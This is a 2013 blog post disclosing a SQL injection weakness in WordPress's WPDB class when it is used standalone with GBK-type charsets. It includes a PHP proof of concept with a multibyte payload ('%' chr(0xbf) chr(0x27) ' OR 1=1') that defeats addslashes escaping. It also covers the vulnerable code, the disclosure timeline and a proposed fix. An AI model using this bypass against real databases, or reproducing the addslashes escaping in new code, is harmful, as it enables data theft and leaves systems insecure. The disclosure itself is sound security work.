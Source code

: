 ```yaml
---
layout: post
title: Disclosure: WordPress WPDB SQL Injection Vulnerability
permalink: disclosure-wordpress-wpdb-sql-injection
date: 2013-07-16
comments: true
categories:
- Security
tags:
- Disclosure
- Open Source
- PHP
- Security
- SQL Injection
---
```


At the current point in time there exists a very significant SQL Injection vulnerability in the WordPress code base. I want to make it abundantly clear that this does not affect anyone using WordPress "off the shelf". It only is exploitable if you use certain WordPress code outside of a WordPress install. So this is not a very "attackable" vulnerability. Or to put it in other terms, this is a high level vulnerability which has a very low threat level. It is also worth noting that it has not been fixed by WordPress (even 90 days after disclosure).<!--more-->
## Vulnerability Scope


I really want to stress here that the problem here is not that WordPress is insecure. Installed instances are immune to this particular vulnerability due to specifics of the implementation. 

The reason that I am treating this like an actual vulnerability is that I firmly believe that open source projects need to lead by example. That's the big issue that needs to be fixed here... And the vulnerability here is something that is extremely well known and the rest of the industry has moved past...## The Vulnerability

<span style="text-align: justify;">So let me show the proof-of-concept code here:</span>

```php
// Fill in credentials here:
$host = '';
$user = '';
$pass = '';
$dbname = '';
 
/** Hack Below */
 
function apply_filters($name, $arg) { return $arg; }
 
define('WP_DEBUG', false); // Not necessary
define('DB_CHARSET', ''); // Necessary
 
require_once dirname(__FILE__) . '/wp-includes/wp-db.php';
 
$db = new WPDB($user, $pass, $dbname, $host);
 
$payload = '%' . chr(0xbf) . chr(0x27) . " OR 1=1 /*";
 
$stmt = $db->prepare(
    'SELECT * 
        FROM INFORMATION_SCHEMA.CHARACTER_SETS 
        WHERE CHARACTER_SET_NAME = %s 
        LIMIT 1', 
    $payload
);

var_dump($db->query($stmt));

```


When this code is installed with a specifically configured MySQL server (expecting GBK character set by default), that SQL Injection will work.

So basically any time the character set is not explicitly set by the user and the external site is using a specific class of character sets (GBK and Big5, among others), this is vulnerable.


But let me make it clear again, this is an extremely narrow case that likely directly affects literally 0 applications on the internet. The point of this disclosure is not that people are affected. It's that this should never even be possible in 2013...## The Vulnerable Code



To see why this works, let's take a look at the [WPDB class](https://github.com/WordPress/WordPress/blob/2ac8311b74063e43ca5a1c886ad706e98b6a0910/wp-includes/wp-db.php). 
```php
function escape( $data ) {
    if ( is_array( $data ) ) {
        foreach ( (array) $data as $k => $v ) {
            if ( is_array( $v ) )
                $data[$k] = $this->escape( $v );
            else
                $data[$k] = $this->_weak_escape( $v );
        }
    } else {
        $data = $this->_weak_escape( $data );
    }

    return $data;
}

```


So looking at that, escape just proxies to `_weak_escape()`... And what's `_weak_escape()` you ask?
```php
function _weak_escape( $string ) {
    return addslashes( $string );
}

```


Yeah. So... If you're not aware of the issue here, I HIGHLY recommend reading [this post on addslashes](http://shiflett.org/blog/2006/jan/addslashes-versus-mysql-real-escape-string) by Chris Shiftlett from 2006...

But it gets better! There's a prepare method that simulates prepared statements! Let's look at how that works...
```php
function prepare( $query, $args ) {
    if ( is_null( $query ) )
        return;

    $args = func_get_args();
    /*snip*/
    array_walk( $args, array( $this, 'escape_by_ref' ) );
    return @vsprintf( $query, $args );
}

```


So it calls `escape_by_ref`... Surely that does something sane...?```php
function escape_by_ref( &$string ) {
    if ( ! is_float( $string ) )
        $string = $this->_real_escape( $string );
}
```


Ok, so now there's a `_real_escape` function? I wonder what that does?```php
function _real_escape( $string ) {
    if ( $this->dbh && $this->real_escape )
        return mysql_real_escape_string( $string, $this->dbh );
    else
        return addslashes( $string );
}
```


Oh cool! There's `mysql_real_escape_string()`! But wait, there's a conditional... It's checking for a connection (and if there isn't one yet, it's insecurely escaping). Then it's checking if the `real_escape` property is true. I wonder how that's set:

In the `set_charset() `function, it checks a few parts. First, it checks to see if the database supports collations. Then it checks to see if it supports charsets. Then it checks to see if we're explicitly setting a charset. Only then will it switch from `addslashes() `to `mysql_real_escape_string()`:
```php
if ( $this->has_cap( 'collation' ) && ! empty( $charset ) ) {
    if ( function_exists( 'mysql_set_charset' ) && $this->has_cap( 'set_charset' ) ) {
        mysql_set_charset( $charset, $dbh );
        $this->real_escape = true;
    } else {
        $query = $this->prepare( 'SET NAMES %s', $charset );
        if ( ! empty( $collate ) )
            $query .= $this->prepare( ' COLLATE %s', $collate );
        mysql_query( $query, $dbh );
    }
}

```


So if you're using an older version of MySQL (below 5.0.7), you'll never use real_escape_string (ever). If, like in our proof-of-concept script above, you're not explicitly setting the charset, it will never use `mysql_real_escape_string()`.

In short, this is REALLY overly complicated and makes security the edge-case rather than the other way around.## Disclosure Timeline

 * April 17 - Initial report sent to lead developer (at his request)
 * April 17 (10 minutes later) - Response acknowliding issue and discussing potential solution
 * June 23 - I emailed stating intention to disclose on July 1, as it has not been fixed nor has progress been made
 * June 23 (10 minutes later) - Response indicating a plan of action. Promise to send code within 24 hours.
 * June 23 - I agree to delay disclosure to July 16, to give more time.
 * July 14 - I received an email requesting an additional 2 weeks, stating that I would get code "within 24 hours" again.
 * July 14 - I declied the request of an additional 2 weeks, as no progress has been shown other than under threat of disclosure.
 * July 16 - Disclosure (still no code received)


So basically, nothing has happened of significance. Which is why I chose to disclose after 90 days. I initially intended to disclose at 60 days, but decided to delay to 75 as it's not a high threat level. Then, when asked (there was progress to be made), I agreed to delay further to 90 days. But I cannot reasonably agree to go further. There has been 90 days since the original report. The fix is actually pretty straight forward. Simply replace all instances of `addslashes() `with `mysql_real_escape_string()`, and raise an error (or start a database connection) if the connection is not active. It's a 5 line patch (well, 5 lines of logic change, the "cleanup" it will allow is much greater)...


Note: I realize that it might not wind up being a 5 line patch, that there may be some circumstances that warrant more changes. So far I have seen nothing to indicate that this is the case (no evidence of actual issues that need to be solved with the original concept).
## Security Is A Responsibility


I've been quoted before as saying that open source projects have a responsibility to their users and to the greater community to lead by example. This case is one where the WordPress project really needs to learn this lesson.

First, the fact that `addslashes() `exists in a database layer in any form in 2013 is down right disturbing. Disturbing doesn't even describe it. It's simply gross negligence. And what's worse is that it's not that the developers didn't understand the problem. And it's not that they didn't think it was a problem. They agreed it was a problem (albeit a narrow one). And that makes it infinitely worse in my opinion. Because that means it's intentional. And that's inexcusable.

To be clear, I'm not trying to attack the individual developers on the project. The individual developers are indeed smart and rational people. The problem as I see it is the policies and practices that the project as a whole have put in place.


But further is the communication that has happened since reporting. After the initial report, the next response I got was over 2 months later when I threatened to disclose. And I was promised code within 24 hours, which I never got. The next time I heard anything was 2 days before the agreed-upon delayed disclosure date. This is not how to handle one of the largest projects in the world. Even if it is a narrow issue.

Really, I'm quite disapointed here.
